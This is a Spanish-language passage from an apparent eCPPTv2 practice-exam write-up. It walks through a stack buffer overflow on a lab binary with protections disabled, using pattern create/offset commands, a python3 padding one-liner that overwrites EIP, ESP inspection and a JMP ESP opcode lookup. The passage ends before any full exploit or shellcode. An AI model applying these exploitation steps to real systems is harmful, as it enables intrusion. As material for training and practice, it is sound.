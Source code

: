 El binario además tiene las protecciones deshabilitadas por lo que se podría hacer un retorno al ESP para ejecutar un shellcode en el stack.

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 73.png)

Para obtener el control del EIP, se creará una cadena especialmente diseñada para luego obtener el offset.

```bash
pattern create 300
```

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 74.png)

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 75.png)

Una vez obtenido el patrón, ahora se obtiene su offset.

```bash
pattern offset $eip
```

Esto calculará la cantidad de caracteres antes del EIP.

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 76.png)

Para comprobar esto, se imprimirá una serie de caracteres con python3.

```bash
python3 -c 'print("A"*112 + "B"*4 + "C"*200)'
```

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 77.png)

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 78.png)

El EIP se sobrescribió con las “B” por lo que se pudo tomar el control de este registro.

Al inspeccionar 4 bits atrás del el stack (ESP), se puede ver que las cadenas “B” están justo antes de las “C”, eso significa que el ESP apunta al comienzo de las “C”.

```bash
# Mostrar 20 bytes y 4 bits antes del comienzo del ESP
x/20wx $esp-4
```

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 79.png)

### Explotación de Buffer Overflow

Ahora se creará un script en python para explotar esto.

Primero se debe buscar la dirección de un OPCode que aplique un “Jump” al ESP. para esto se utilizará objdump.

Primero se obtendrá el OPCode correspondiente al “JMP ESP”.

```bash
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
jmp esp
```
